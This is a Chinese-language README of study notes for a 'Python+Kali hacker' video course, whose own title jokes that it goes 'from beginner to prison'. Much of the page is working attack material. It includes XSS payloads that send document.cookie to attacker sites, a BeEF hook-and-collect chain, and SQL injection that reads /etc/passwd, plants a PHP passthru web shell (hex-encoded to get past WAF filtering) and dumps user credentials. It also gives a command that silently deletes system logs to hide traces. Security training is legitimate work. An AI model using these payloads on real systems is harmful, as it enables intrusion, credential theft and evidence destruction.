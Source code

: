 # [乾颐堂](https://www.qytang.com/) Python+Kali黑客全套教程

## 0x00 视频 + 源码 + PDF

- videos
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [python+kali的全套黑客编程实践教程，全知识点+实践练习，（针对小白/python/kali/网络安全）](https://www.bilibili.com/video/BV1bG4y1H784/?spm_id_from=333.337.search-card.all.click&vd_source=7f220845f0d7bc792a045e75a5ac8b8d)
  - [Python+Kali黑客全套教程，全程干货+实战技术，小白学习从入门到入狱](https://www.bilibili.com/video/BV17V4y157ih/?vd_source=7f220845f0d7bc792a045e75a5ac8b8d#reply136957487232)

- 源码 + PDF

  需要 + up 主 wx

- PDF

  暂存本地 [python&kali 教程](待定)



## 0x01 简单记录

<!--last modify: 20230922-->

- 扫描工具

  ping  /  fping / nping / arping / nbtscan / onesixtyone

- python + nmap

  ```tex
  # https://pypi.org/project/python-nmap/
  # pip install python-nmap
  # import nmap
  ```

  - pypi 中有相关使用方法

- 痕迹清理

  ```shell
  del %WINDIR%\*.log /a/s/q/f # 强制静默删除只读文件
  ```

- nexpose api

  ```tex
  https://<host>:<port>/api/api-version/xml
  ```

- 协议攻击

  ```tex
  mac 泛洪 + mac 欺骗
      macof
      # 防御 port security 技术
  
  dhcp 攻击
      pig.py 干掉合法dhcp 服务器
      非法dhcp 服务器开始干活儿
      # 防御 dhcp snooping 技术
  
  arp 攻击
      arpspoof
      # 防御 DAI 技术
  
  dns spoofing
      ettercap # dns 欺骗
      set # 社会工程学
  ```

- windows 沙盒探测



- 工具

  ```tex
  BurpSuite
  	Proxy 代理 / Intruder 攻击 / Repeater 重放
      Comparer 可比较两个不同请求页面的响应区别
      Spider 手工爬取+自动爬取
      Scanner 手工+自动
      Sequencer 自动确认Cookies 随机性
      Decoder + Extender 编/解码(绕过) + 扩展(WAF 绕过等)
  AppScan
  ```

- XSS POC & 攻击技巧

  ```tex
  # 手工改确认
  	1. 脚本：<script>alert('xss')</script> # <scr<Script>ipt>alert('xss')</script>
  	2. 超链接：<a href='' onclick=alert('xss')>click it</a>
  	3. 图片：<img src=http://172.16.1.23/a.jpgg onerror=alert('xss')>
  	4. 重定向：<script>window.location="http://www.testfire.net/index.jsp"</script>
  	5. iframe：<iframe width=300 height=100 src="http://dvwa.com/xss_vul/?name=<script>window.location='http://baidu.com/login_cookie.php?sid='%2Bdocumet.cookie;</script>"></iframe>
  	6. DOM：<script>document.body.ierHTML="<div style=visibility.visible;><br/><br/><h1>test</h1></div>";</script>
  
  # 攻击技巧
  	1. hook
  	2. keylogger
      /*
      1. 诱导受害者访问钓鱼网站
      2. 钓鱼网站触发访问目标(可信本地存在cookie)站点
      3. 触发本地PC 下载hook.js 文件
      4. 本地PC 运行hook.js 文件，获取cookie
      5. 发给hacker 站点，收集cookie
      6. hacker 站点以邮件形式发出
  
      http://target.vulhost.com/xss.php # 目标站点
      http://gofish.hack.net/index.jsp # 社工伪造钓鱼网站
      http://hook.hack.net/xss_hook.js # hook 站点
      http://collect.hack.net/xss_hook2email.php # 通过hook 站点收集信息的站点
      */
  
  # 注入点/注入位置
  [XSS 注入点](https://www.xjx100.cn/news/432525.html?action=onClick)
  # 常见绕过方式
  (替换)双写/大小写/转码
  # 存储型XSS
  前端表单长度限制，PC 端修改源码
  1 DOM 型XSS
  在URL 中符号'#' 后面的不会发送给服务端，但响应页面包含符号'#' 后内容且运行写入内容至PC 页面
  存在解码与否问题
  ```
  
- XSS 工具

  ```tex
  # xsser
      1. xsser -u "http://dvwa.com/vulnerabilities/xss_r/" -g "?name=" --cookie="PHPSESSID=h5btppesjqq99igfrc2lr24in4; security=low" -s -V --reverse-check # 反向检查
      2. xsser -u "http://dvwa.com/vulnerabilities/xss_r/" -g "?name=" --cookie="PHPSESSID=h5btppesjqq99igfrc2lr24in4; security=low" -s -V --heuristic # 检查
  
  # BeEF / beef-xss
  	Hooked 主机信息/键盘与鼠标记录查询/Commands 命令模块(颜色)
  	1. Get Cookie / 查表单填写内容 / 获取或修改页面超链接 / 弹出警告页面 / 查询Bug 软件 / 浏览器页面拍照 / 控制PC 进行DoS 等攻击 / 禁止关闭窗口 / 弹窗
  ```
  
- 密码破解

  ```tex
  # hash-identifier
  # john
  	john --format=raw-MD5 user_pass.txt --show
  ```

- SQL 注入

  ```tex
  # 读取服务器重要文件
  ' union select null, load_file('/etc/passwd') --+
  
  # 禁用PrivateTemp 功能
  # /usr/lib/systemd/system/mariadb.service
  # /user/lib/systemd/system/httpd.service
  # 修改PrivateTemp=off
  systemctl daemon-reload
  systemctl restart mariadb.service
  systemctl restart httpd.service
  
  # 写入文件
  ' union select null, "<?php passthru($_GET['cmd']); ?>" into dumpfile "/tmp/cmd.php" --+
  
  # 文件包含漏洞执行代码
  http://www.dvwa.com/vulnerabilities/fi/?page=/tmp/cmd.php&cmd=id
  
  # 防WAF 过滤对PHP 脚本进行转码
  <?php passthru($_GET['cmd']);?> # shell_cmd.php
  
  # 转16 进制
  echo "<?php passthru($_GET['cmd']);?>" |xxd -ps |tr -d '\n' # 3c3f706870207061737374687275285b27636d64275d293b3f3e0a
  
  # 注入
  ' union select null, (3c3f706870207061737374687275285b27636d64275d293b3f3e0a) into dumpfile "/tmp/cmd.php" --+
  
  # 文件包含漏洞执行代码
  http://www.dvwa.com/vulnerabilities/fi/?page=/tmp/cmd.php&cmd=id
  
  # 数据库写入文件
  ' union select null, concat(user, 0x3a, password) from users into outfile '/tmp/mysql.db' --+
  # 批量下载数据库
  http://www.dvwa.com/vulnerabilities/fi/?page=/tmp/mysql.db
  ```

- SQL 注入无权查询inforation_schema 表时

  ```tex
  # ' and column_name is null --+ # 猜列名
  select * from users where id = '' and column_name is null --+ # 如column_name 为username
  
  # ' or column_name='column_value # 猜列值，如列名user 中是否有admin
  # ' or column_name like '%char% # 猜列值，如列名user 中列值是否包含字符a
  # ' or column_name='column_value1' and column_value2='5f4dcc3b5aa765d61d8327deb882cf99 # 爆破密码，如已知列名user 和列值1 为admin，猜另一列值password 
  
  # ' and tables_name.column_name is null --+ # 猜表名
  select * from users where id = '' and tables_name.column_name is null --+ # 如tables_name.column_name 为users.username
  
  # ' and (select count(*) from tables_name) > 0 --+ # 猜表名，可暴露当前使用的数据库名
  
  ```
  
  
